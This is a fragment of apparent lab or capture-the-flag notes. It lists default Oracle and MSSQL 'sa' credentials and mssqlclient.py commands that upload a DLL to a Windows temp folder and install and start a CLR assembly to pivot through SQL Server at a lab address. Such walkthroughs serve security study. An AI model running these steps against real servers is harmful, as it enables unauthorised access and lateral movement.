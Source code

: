 |default user name | password|
|---|---|
|svc_oracle |#oracle_s3rV1c3!2020|

### mssql shell

```bash

python3 mssqlclient.py sa@10.10.10.240


```

|default user name | password|
|---|---|
|sa |#mssql_s3rV1c3!2020|

```bash
enable_ole

upload reciclador.dll C:\Windows\temp\reciclador.dll

mv assembly.dll Microsoft.SqlServer.Proxy.dll

python3 mssqlclient.py sa@10.10.10.240 -install -clr Microsoft.SqlServer.Proxy.dll

python3 mssqlclient.py sa@10.10.10.240 -check -reciclador 'C:\Windows\temp\reciclador.dll'

python3 mssqlclient.py sa@10.10.10.240 -start -reciclador 'C:\Windows\temp\reciclador.dll'


```

![](20211107145909.png)
